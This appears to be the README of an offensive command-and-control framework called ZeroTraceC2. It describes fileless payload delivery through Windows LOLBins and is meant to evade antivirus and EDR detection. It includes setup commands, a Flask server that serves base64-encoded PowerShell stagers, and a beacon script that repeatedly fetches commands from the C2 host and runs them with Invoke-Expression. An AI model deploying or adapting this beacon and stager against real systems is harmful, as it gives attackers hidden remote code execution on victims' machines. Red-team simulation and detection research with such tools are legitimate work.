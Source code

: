 # ZeroTraceC2

![ZeroTraceC2](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/06-Command-and-Control-C2-Systems/ZeroTraceC2/screenshots/0.png)

## Description

**ZeroTraceC2** is a fileless Command and Control (C2) framework that leverages native Windows LOLBins (Living Off the Land Binaries) such as `mshta`, `certutil`, and `powershell`. It supports staged and stageless payload delivery where code is executed entirely in memory without writing to disk. This tool is designed for red teamers to simulate stealthy real-world adversaries evading traditional AV/EDR detections.

## Features

* Fileless payload delivery using PowerShell base64
* Uses LOLBins to execute payloads without dropping files
* Supports staged (multi-phase) and stageless modes
* Hosts PowerShell payloads over HTTP with a Flask C2 server
* Easily extendable command injection logic

## Installation

```bash
git clone https://github.com/your/repo.git
cd ZeroTraceC2
python3 -m venv venv
source venv/bin/activate
pip install --upgrade pip
pip install -r requirements.txt
```

## Usage

### Start the C2 server:

```bash
python3 main.py --config configs/config.yaml
```

Expected:

```
 * Serving Flask app 'c2server.server'
 * Debug mode: off
```

### Fetch staged PowerShell payload:

```bash
curl http://127.0.0.1:8080/stage
```

This returns a `powershell -e <base64>` one-liner for in-memory execution.

### Fetch beacon PowerShell script:

```bash
curl http://127.0.0.1:8080/beacon.ps1
```

You will see a looped command puller:

```powershell
while ($true) {
  try {
    $cmd = Invoke-WebRequest -Uri "http://127.0.0.1:8080/command" -UseBasicParsing
    Invoke-Expression $cmd.Content
  } catch {}
  Start-Sleep -Seconds 10
}
```

## Configuration

`configs/config.yaml`:

```yaml
c2:
  host: "0.0.0.0"
  port: 8080
  mode: "staged"  # or stageless

payload:
  entry_point: "payloads/stage1.ps1"
```

* `mode`: Use `staged` for multi-step loading or `stageless` for all-in-one drop
* `entry_point`: Path to the PS1 file to be base64-encoded and served

## Screenshots

![ZeroTraceC2](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/06-Command-and-Control-C2-Systems/ZeroTraceC2/screenshots/0.png)
![ZeroTraceC2](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/06-Command-and-Control-C2-Systems/ZeroTraceC2/screenshots/1.png)

## License

MIT

## Disclaimer

🔥 For educational use only. Do not run without authorization.

## Author

\[mchyasn]
